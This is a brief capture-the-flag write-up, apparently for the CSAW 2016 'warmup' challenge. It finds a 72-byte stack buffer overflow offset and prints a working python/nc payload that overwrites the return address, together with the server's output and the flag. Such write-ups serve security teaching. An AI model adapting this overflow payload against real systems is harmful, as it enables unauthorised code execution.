 #warmup

基本的buffer overflow 題，

開IDA pro看

![img](1.jpg)

開始找overflow的長度

-> 72

於是在72個"a"後面塞IDA pro看到的位址：400611，

題目秀出的也可以。

![img](warmup.jpg)

It is 64-bit so that we need to add "\x00" 4 times behind payload. 

payload: 
'''
python -c 'print "a"*72 + "\x11\x06\x40\x00\x00\x00\x00\x00"' | nc pwn.chal.csaw.io 8000
-Warm Up-
WOW:0x40060d
>FLAG{LET_US_BEGIN_CSAW_2016}'''

Flag is ```FLAG{LET_US_BEGIN_CSAW_2016}```
